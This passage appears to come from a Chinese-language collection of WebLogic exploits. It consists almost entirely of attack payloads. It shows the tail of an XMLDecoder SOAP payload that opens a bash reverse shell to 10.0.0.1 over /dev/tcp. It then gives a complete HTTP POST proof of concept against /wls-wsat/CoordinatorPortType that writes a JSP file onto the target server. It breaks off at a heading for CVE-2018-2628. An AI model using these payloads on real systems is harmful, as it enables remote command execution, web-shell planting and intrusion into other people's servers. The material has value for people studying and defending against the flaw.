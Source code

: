 ```
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![](/zj_img/WEBRESOURCE82c2c4952a93c896bb4a2d5db2359a53截图.png)

写shell POC：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

## 2、WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）
